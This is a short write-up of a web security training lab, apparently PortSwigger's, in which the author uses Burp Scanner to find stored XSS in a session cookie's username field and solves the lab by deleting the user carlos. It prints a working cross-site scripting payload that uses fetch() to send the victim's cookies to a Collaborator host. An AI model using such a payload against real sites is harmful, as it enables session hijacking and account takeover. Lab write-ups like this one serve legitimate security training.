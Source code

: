 # Practitioner Lab 159: Scanning non-standard data structures

---

This lab contains a vulnerability that is difficult to find manually. It is located in a non-standard data structure.

To solve the lab, use [Burp Scanner](https://portswigger.net/burp/vulnerability-scanner)'s **Scan selected insertion point** feature to identify the vulnerability, then manually exploit it and delete `carlos`.

You can log in to your own account with the following credentials: `wiener:peter`

I logged in and found a weird session cookie that had my username as well as a token. I did a insertion scan on the username and it found stored xss. 

I attempted it with my own collaborator and it worked. 

![Untitled](Practitioner%20Lab%20159%20Scanning%20non-standard%20data%20st%2048b9992f18154a3798c880f7e276aa8a/Untitled.png)

Here since it was stored I can see requests from the victim in my collaborator. 

I found the following payload which I could possibly use to get the cookie.

```
'"><svg/onload="fetch('//2y1qp6oi3pj9gngyd00pkamff6lz9rxjn7ex1npc.oastify.com?cookies=' + encodeURIComponent(document.cookie))">
```

![Untitled](Practitioner%20Lab%20159%20Scanning%20non-standard%20data%20st%2048b9992f18154a3798c880f7e276aa8a/Untitled%201.png)

Here I sent the request and it resulted in this.

![Untitled](Practitioner%20Lab%20159%20Scanning%20non-standard%20data%20st%2048b9992f18154a3798c880f7e276aa8a/Untitled%202.png)

![Untitled](Practitioner%20Lab%20159%20Scanning%20non-standard%20data%20st%2048b9992f18154a3798c880f7e276aa8a/Untitled%203.png)

This solved the lab.